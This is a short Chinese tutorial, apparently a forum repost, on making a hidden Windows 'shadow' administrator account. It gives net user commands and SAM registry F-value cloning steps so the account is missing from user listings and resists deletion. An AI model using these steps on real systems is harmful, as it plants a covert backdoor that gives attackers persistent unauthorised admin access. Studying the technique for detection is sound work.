




# 影子用户

> 原文：[https://www.zhihuifly.com/t/topic/3517](https://www.zhihuifly.com/t/topic/3517)

## 影子用户

影子用户顾名思义就是一个隐藏用户，只能通过注册表查看这个用户，其它方式是找不到这个用户的信息的

在用户名后面加一个`$`可以创建一个匿名用户，创建完毕后我们再把这个用户添加到administrator组

```
net user test$ test /add
net localgroup administrators test$ /add 
```

可以看到`net user`是看不到我们创建的用户，但是计算机管理-用户和组中可以看到



所以这时候我们就需要修改一下注册表，其键位置为：`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users`

注意：`SAM`键值默认是只能`system`权限修改的，所以我们要修改一下`SAM`键的权限，给予`administrator`完全控制和读取的权限



然后我们将`administrator`用户对应的项中的F值复制到`test$`对应xiang中的F值，然后保存



然后我们将`test$`删除掉

```
net user test$ /del 
```

然后再双击导出的注册表文件，然后我们再看一下



`net user`和计算机管理-用户和组中都查看不到用户了，但是我们可以用`net user test$`查看用户信息

这个时候我们再用`net user test$ /del`是删除不掉这个用户的，只能通过注册表来删除。